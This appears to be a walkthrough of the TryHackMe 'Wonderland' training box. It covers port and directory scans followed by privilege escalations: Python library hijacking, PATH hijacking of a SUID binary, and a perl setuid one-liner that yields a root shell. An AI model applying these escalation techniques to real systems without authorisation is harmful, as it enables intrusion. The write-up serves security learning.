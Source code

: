 ```yaml
---
title: "TryHackMe Wonderland Walkthrough"
date: 2022-01-31 15:15:00 +0530
layout: post
categories: thm
tags: [thm]
toc: true
---
```


# Wonderland Writeup

![fdba6eaf85513262b2a9b12875b0f342](https://user-images.githubusercontent.com/56447720/151762571-4b11cc2d-a580-48d3-8e62-896d58f219f4.jpeg)

## Port Scan 

```bash
└─$ cat nmap_results                                                                                                                    1 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2022-01-30 18:59 IST
Nmap scan report for 10.10.82.194 (10.10.82.194)
Host is up (0.21s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.06 seconds

```
## Directory Scan

```bash
└─$ feroxbuster -u http://10.10.82.194/ -w /usr/share/wordlists/dirb/big.txt

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher                    ver: 2.4.0
───────────────────────────┬──────────────────────
     Target Url            │ http://10.10.82.194/
     Threads               │ 50
     Wordlist              │ /usr/share/wordlists/dirb/big.txt
     Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
     Timeout (secs)        │ 7
     User-Agent            │ feroxbuster/2.4.0
     Config File           │ /etc/feroxbuster/ferox-config.toml
     Recursion Depth       │ 4
     New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
301        0l        0w        0c http://10.10.82.194/img
301        0l        0w        0c http://10.10.82.194/poem
301        0l        0w        0c http://10.10.82.194/r
301        0l        0w        0c http://10.10.82.194/r/a
301        0l        0w        0c http://10.10.82.194/r/a/b
301        0l        0w        0c http://10.10.82.194/r/a/b/b
[####################] - 4m    122808/122808  0s      found:6       errors:0      
[####################] - 2m     20468/20468   146/s   http://10.10.82.194/
[####################] - 2m     20468/20468   126/s   http://10.10.82.194/img
[####################] - 2m     20468/20468   116/s   http://10.10.82.194/poem
[####################] - 2m     20468/20468   116/s   http://10.10.82.194/r
[####################] - 2m     20468/20468   129/s   http://10.10.82.194/r/a
[####################] - 1m     20468/20468   170/s   http://10.10.82.194/r/a/b

```
- the url was made with word `rabbit`
- Visiting `http://10.10.82.194/r/a/b/b/i/t/` gave `ssh password` in the source code (`view-source:http://10.10.82.194/r/a/b/b/i/t/`)

## User flag 

- The hint said `everything's upside down here`, as `root.txt` was in user's directory, the `user.txt` was in root directory

```bash

alice@wonderland:~$ cat /root/user.txt
thm{<--SNIPPED-->}

```

## User raabit

- `sudo -l` 

```bash
alice@wonderland:~$ sudo -l
[sudo] password for alice: 
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

- The current directory had a python file that imports random library
- We should create a file `random.py` so python would take it executes it

```python

import os
os.system('/bin/bash')
```
- Save the prgm with name `random.py` 
- Run it

```bash
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$ ls
__pycache__  random.py  root.txt  walrus_and_the_carpenter.py
rabbit@wonderland:~$ whoami
rabbit

```
## User hatter

- The binary `teaParty` had suid bit

```bash
rabbit@wonderland:/home/rabbit$ ls
teaParty
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Mon, 31 Jan 2022 10:11:17 +0000
Ask very nicely, and I will give you some tea while you wait for him
sure
Segmentation fault (core dumped)

```
- strings wasn't installed on the machine so I used python server and took that file on my local machine

```bash
└─$ strings teaParty 
/lib64/ld-linux-x86-64.so.2
2U~4
libc.so.6
setuid
puts
getchar
system
__cxa_finalize
setgid
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u/UH
[]A\A]A^A_
Welcome to the tea party!
The Mad Hatter will be here soon.
/bin/echo -n 'Probably by ' && date --date='next hour' -R
Ask very nicely, and I will give you some tea while you wait for him
Segmentation fault (core dumped)
;*3$"
GCC: (Debian 8.3.0-6) 8.3.0

<--SNIPPED-->
```
- The binary uses date for throwing out the time
- `/bin/echo -n 'Probably by ' && date --date='next hour' -R`

- we can use same methodology as previous peivilege escalation
- create a file name `date` and add it to `$PATH` variable

```bash
rabbit@wonderland:/home/rabbit$ cat date
#!/bin/bash

python3 ../alice/random.py

```
- I've used random.py file which we used earlier, you can replace the python3 line with `/bin/bash`

- Run the file to get hatter user 

```bash
rabbit@wonderland:/home/rabbit$ ls
date  teaParty
rabbit@wonderland:/home/rabbit$ chmod +x date 
rabbit@wonderland:/home/rabbit$ export PATH=/home/rabbit:$PATH
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ 
```
- password file 
- The hatter's directory had password file for the user hatter 

```bash
hatter@wonderland:/home/hatter$ cat password.txt 
<--SNIPPED-->
hatter@wonderland:/home/hatter$ id
uid=1003(hatter) gid=1002(rabbit) groups=1002(rabbit)
```
- We still have group id as rabbit
- use the password to escalate privileges : `ssh hatter@localhost`

```bash
hatter@wonderland:~$ id
uid=1003(hatter) gid=1003(hatter) groups=1003(hatter)

```

## Root User

- Checked for capabilities

```bash
hatter@wonderland:~$ getcap -r / 2>/dev/null
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```
- Perl has an setuid
- GTFO bins have payload for capabilities, suid, sudo, etc :  `https://gtfobins.github.io/gtfobins/perl/`
- Use `perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'` to get root shell 

```bash
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# id                
uid=0(root) gid=1003(hatter) groups=1003(hatter)
# cat /home/alice/root.txt
thm{<--SNIPPED-->}

```

